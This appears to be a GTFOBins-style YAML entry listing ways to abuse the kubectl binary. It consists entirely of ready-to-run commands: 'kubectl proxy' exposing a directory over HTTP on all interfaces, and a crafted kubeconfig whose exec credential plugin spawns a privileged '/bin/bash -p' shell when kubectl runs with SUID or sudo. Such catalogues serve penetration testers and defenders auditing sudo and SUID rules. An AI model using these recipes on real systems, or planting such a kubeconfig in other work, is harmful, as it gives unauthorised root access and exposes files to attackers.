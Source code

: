 ```yaml
---
functions:
  file-upload:
    - code: |
        LFILE=dir_to_serve
        kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
  suid:
    - code: |
        LFILE=dir_to_serve
        ./kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`." 
    - code: |-
        cat << EOF > /tmp/config
        apiVersion: v1
        clusters:
        - cluster:
            server: https://test
          name: kubernetes
        contexts:
        - context:
            cluster: kubernetes
            user: kubernetes-admin
          name: kubernetes-admin@kubernetes
        current-context: kubernetes-admin@kubernetes
        kind: Config
        preferences: {}
        users:
        - name: kubernetes-admin
          user:
            exec:
              apiVersion: client.authentication.k8s.io/v1
              command: /bin/bash
              args: 
                - "-p"
                - "-c"
                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
              interactiveMode: Always
        EOF
        ./kubectl get pods --kubeconfig=/tmp/config 
      description: "It pops a new privileged shell using custom configuration"
  sudo: 
    - code: |
        LFILE=dir_to_serve
        sudo kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
    - code: |-
        cat << EOF > /tmp/config
        apiVersion: v1
        clusters:
        - cluster:
            server: https://test
          name: kubernetes
        contexts:
        - context:
            cluster: kubernetes
            user: kubernetes-admin
          name: kubernetes-admin@kubernetes
        current-context: kubernetes-admin@kubernetes
        kind: Config
        preferences: {}
        users:
        - name: kubernetes-admin
          user:
            exec:
              apiVersion: client.authentication.k8s.io/v1
              command: /bin/bash
              args: 
                - "-p"
                - "-c"
                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
              interactiveMode: Always
        EOF
        sudo kubectl get pods --kubeconfig=/tmp/config 
      description: "It pops a new privileged shell using custom configuration"
---
```

